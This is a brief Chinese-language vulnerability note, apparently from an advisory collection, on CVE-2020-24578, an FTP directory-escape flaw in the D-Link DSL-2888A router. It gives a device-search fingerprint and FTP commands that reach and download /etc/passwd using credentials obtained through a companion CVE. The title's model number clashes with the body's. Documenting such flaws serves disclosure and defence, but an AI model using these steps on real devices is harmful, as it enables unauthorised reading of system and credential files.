

# D-Link DSL-28881A FTP配置错误 CVE-2020-24578

## 漏洞描述

D-Link DSL-2888A路由器具有文件共享功能，该功能允许用户通过将外部驱动器插入路由器来与其他网络用户共享文件。然后通过FTP（文件传输协议）共享。但是，FTP服务允许网络用户转义共享文件夹以访问路由器文件系统并下载位于根文件夹中的其他文件。

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

前提为使用 `D-Link DSL-28881A 信息泄露 CVE-2020-24577` 获取FTP凭证

以下提供了下载“ passwd”的示例：
在FTP客户端上使用以下命令以有效的凭据（从Finding-2获得）连接到FTP服务。
使用以下命令导航到根文件夹。

```plain
ftp xxx.xxx.xxx.xxx
ftp> cd etc 
ftp> get passwd
```





若有收获，就点个赞吧